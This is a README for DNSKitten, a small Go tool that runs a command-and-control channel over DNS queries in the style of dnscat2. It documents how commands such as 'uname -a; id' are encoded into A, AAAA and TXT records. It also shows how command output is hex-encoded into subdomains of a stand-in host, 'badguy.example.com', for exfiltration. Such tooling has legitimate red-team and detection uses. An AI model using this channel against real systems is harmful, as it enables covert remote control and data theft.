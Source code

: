 DNSKitten
=========

In the spirit of netcat, but uses DNS instead of TCP.  Directly inspired by
[dnscat2](https://github.com/iagox86/dnscat2), but much smaller and
client-agnostic.

Features:
- Sends data from stdin to a client via DNS
- Sends data from DNS requests from a client to stdout
- Ignores duplicate requests

For legal use only.

Installation
------------
```bash
go get github.com/magisterquis/dnskitten
```

The included build.sh script can be used to build for a variety of platforms.

Clients
-------
There is no one reference client (i.e. malware) for DNSKitten.  In the
[`clients`](./clients) directory ~are some~ is an example~s~, but in general, DNSKitten
is client-agnostic.

DNSKitten does no demultiplexing of clients.  In general, it's a pretty simple
tool.  Multiple clients will need multiple intstances of DNSKitten.  One way to
do this is to assign each client a subdomain and have the main resolver forward
requests for each subdomain to a separate local instance of DNSKitten.  Tmux is
helpful for this.

Requests
--------
Each request must use a name (qname) which is unique for the previous 10240
requests.  This is to prevent caching and help mitigate duplicate output
caused by excitable resolvers trying to refresh cached data.  An easy way to do
this is to prepend a counter or random string to the domain in the request,
e.g. `example.com` -> `391.example.com`.

C2 -> Client
------------
Data to be sent from the C2 server to the Client (e.g. a command to execute)
can be requested with any of the following record types (qtype):

| QType | Encoding | Example                                                                                                                   |
|-------|----------|---------------------------------------------------------------------------------------------------------------------------|
| A     | Three bytes, base64-encoded                        | `who` -> `d2hv` -> 64.32.68.76                                                  |
| AAAA  | Same as A, but 12 encoded bytes                    | `uname -a; id` -> `dW5hbWUgLWE7IGlk` -> 6457:3568:6257:5567:4c57:4537:4947:6c6b |
| TXT   | A single byte string, up to 128 bytes              |                                                                                 |
| URI   | Same as TXT, with the Priority and Weight set to 0 |                                                                                 |

A and AAAA records will be space (0x20) padded on the right if the
base64-encoded data is too short.

Client -> C2
------------
Data to be sent from the Client to the C2 server (e.g. command output) should
be hex-encoded and made the leftmost label of a domain ending in `.o.<domain>`.
Each request should be unique to prevent caching.  This is easily performed by
adding a label to the requested name with a counter or a random string.  An
NXDOMAIN response will be returned.

If the output to be returned is `kitten` and the domain is
`badguy.example.com`, a valid request might be
```
6b697474656e.1234.o.badguy.example.com
```
Note the label with 1234 is to prevent caching.

Examples
--------
Coming soon.

Windows
-------
Should work with no modifications.  Binaries available upon request.
